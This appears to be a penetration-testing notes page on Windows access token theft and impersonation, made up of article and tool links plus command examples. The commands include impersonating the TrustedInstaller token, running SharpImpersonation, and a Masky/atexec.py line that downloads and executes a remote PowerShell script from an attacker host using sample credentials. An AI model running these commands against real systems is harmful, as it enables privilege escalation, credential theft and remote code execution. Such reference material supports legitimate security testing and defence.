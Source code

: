 # Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)
- [[PDF] Technical Analysis of Access Token Theft and Manipulation (McAfee)](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)

![Access Token Theft and Manipulation (McAfee)](/.gitbook/assets/011.png)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

```
PS > .\SharpImpersonation.exe list [elevated]
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash binary:"powershell.exe whoami"
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash technique:ImpersonateLoggedOnuser
```



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)



### Masky

- [https://z4ksec.github.io/posts/masky-release-v0.0.3/](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
- [https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)
- [https://threadreaderapp.com/thread/1563247630129725442.html](https://threadreaderapp.com/thread/1563247630129725442.html)

Combining with AD CS abuse:

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/README.md" %}
[README.md](README.md)
{% endcontent-ref %}

```
$ pipx install -f 'git+https://github.com/Z4kSec/Masky.git'
$ masky -d tinycorp -u snovvcrash -p 'Passw0rd!' -ca 'CA01.megacorp.local\CorpCA' -dc-ip 192.168.1.11 10.10.13.37
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iex(new-object net.webclient).downloadstring(""""http://10.10.13.37/Invoke-Masky.ps1"""");Invoke-Masky /ca:CA01.megacorp.local\CorpCA'
```
